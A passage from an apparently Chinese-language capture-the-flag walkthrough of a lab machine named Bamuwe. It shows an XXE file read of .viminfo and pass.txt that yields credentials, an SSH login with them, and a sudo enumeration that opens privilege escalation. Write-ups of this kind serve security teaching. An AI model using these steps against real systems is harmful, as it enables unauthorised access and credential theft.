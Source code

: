 * **发现凭据:**
  发送请求后，服务器返回的响应中包含了 `/home/welcome/.viminfo` 文件的内容。可以看到，之前的用户读取了`pass.txt`

  ![XXE Result - Credentials in .viminfo](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250430203435219.png)

  我们通过xxe获取pass.txt文件，可以得到

  ```html
  <div class='result'>Registration Status: Email 【welcome:bd7787d41a6b28e9976873cf6a8445fe
  】 submitted!</div>
  ```

  成功提取到凭据：`welcome:bd7787d41a6b28e9976873cf6a8445fe`

### 3.3. 登录系统 (Gaining Access)

获得了 `welcome` 用户的用户名和密码，我立即尝试通过 SSH 登录目标系统。

```bash
┌──(kali㉿kali)-[~]
└─$ ssh welcome@192.168.205.197
The authenticity of host '192.168.205.197 (192.168.205.197)' can't be established.
ED25519 key fingerprint is SHA256:O2iH79i8PgOwV/Kp8ekTYyGMG8iHT+YlWuYC85SbWSQ.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:5: [hashed name]
    ~/.ssh/known_hosts:7: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.205.197' (ED25519) to the list of known hosts.
welcome@192.168.205.197's password: 
Linux Bamuwe 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Apr 11 22:27:59 2025 from 192.168.3.94
welcome@Bamuwe:~$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
```

成功以 `welcome` 用户身份登录目标系统。

## 4. 权限提升 (welcome -> root - Sudo Misconfiguration & MQTT Abuse)

### 4.1. 以 welcome 身份进行信息收集 (Enumeration as welcome)

登录后，首要任务是寻找权限提升的途径。我首先检查了 `welcome` 用户的 `sudo` 权限。

```bash
welcome@Bamuwe:~$ sudo -l
Matching Defaults entries for welcome on Bamuwe:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on Bamuwe:
    (ALL) NOPASSWD: /opt/sub.sh
```
